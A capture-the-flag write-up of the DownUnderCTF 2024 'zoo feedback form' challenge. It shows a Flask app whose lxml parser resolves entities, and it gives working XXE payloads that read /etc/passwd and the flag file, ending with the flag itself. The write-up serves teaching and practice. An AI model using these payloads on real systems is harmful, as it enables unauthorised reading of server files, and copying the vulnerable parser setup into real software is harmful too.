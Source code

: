 # zoo feedback form

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @siunam
- 693 solves / 100 points
- Author: @richighimi
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

Author: richighimi

[https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev](https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev)

## Enumeration

Index page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240708161124.png)

In here, we can submit feedback to the Zoo.

Let's try to submit some random inputs:

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240708161226.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240708161235.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240708161253.png)

When we clicked the "Submit Feedback" button, it'll send a POST request to `/` with an XML body data.

There's not much we can do in here! Let's read this web application's source code!

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/web/zoo-feedback-form/zoo-feedback-form.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/zoo-feedback-form)-[2024.07.08|16:14:01(HKT)]
└> file zoo-feedback-form.zip 
zoo-feedback-form.zip: Zip archive data, at least v1.0 to extract, compression method=store
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/zoo-feedback-form)-[2024.07.08|16:14:02(HKT)]
└> unzip zoo-feedback-form.zip 
Archive:  zoo-feedback-form.zip
   creating: zoo-feedback-form/
  inflating: zoo-feedback-form/Dockerfile  
   creating: zoo-feedback-form/main-app/
 extracting: zoo-feedback-form/main-app/flag.txt  
   creating: zoo-feedback-form/main-app/static/
  inflating: zoo-feedback-form/main-app/static/styles.css  
   creating: zoo-feedback-form/main-app/templates/
  inflating: zoo-feedback-form/main-app/templates/index.html  
  inflating: zoo-feedback-form/main-app/app.py  
  inflating: zoo-feedback-form/requirements.txt  
```

After reviewing the source code, we have the following findings:

1. This web application uses Python's Flask web application framework and XML to handle data.
2. There's no routes (Endpoints) to read the flag.

Now, let's dive into this web application's main logic, `zoo-feedback-form/main-app/app.py`!

```python
from flask import Flask, request, render_template_string, render_template
from lxml import etree

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_data = request.data
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

In here, we can see that the POST route parses our XML data using library `lxml`.

After parsing our XML data, it'll get the `<feedback>` element's text inside the `<root>` element and use Jinja template engine to render our `<feedback>` element's text.

When reviewing source code, if the web application uses XML to process data, it's susceptible to be vulnerable for **XML External Entity (XXE) Injection**.

In the application's XML parser (`etree.XMLParser`), the `resolve_entities` is set to `True`. As the name suggested, **the XML parser will replace entities by their text value, which is vulnerable to XXE**!

> Note: XML entities can be used to tell the XML parser to fetch specific content on the web server.

## Exploitation

With the above knowledge, we can try to exploit the XXE vulnerability to **read arbitrary file** from the server's filesystem with the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>
    <feedback>&xxe;</feedback>
</root>
```

In this payload, we defines an external entity called `&xxe;` with the value of file `/etc/passwd`.

Let's try the above payload!

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240708163209.png)

Nice! It worked!

Let's read the flag file this time!

But wait, where's the flag file location?

**If we look at `zoo-feedback-form/Dockerfile`, the web application's directory is at `/app` (`WORKDIR /app`):**
```bash
FROM python:3.9-slim

WORKDIR /app

COPY requirements.txt .

RUN pip install -r requirements.txt

COPY main-app/ .

EXPOSE 80

CMD [ "python", "app.py" ]
```

**Hence, the flag file is at `/app/flag.txt`:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///app/flag.txt'>]>
<root>
    <feedback>&xxe;</feedback>
</root>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240708163514.png)

- **Flag: `DUCTF{emU_say$_he!!0_h0!@_ci@0}`**

## Conclusion

What we've learned:

1. XML External Entity (XXE) injection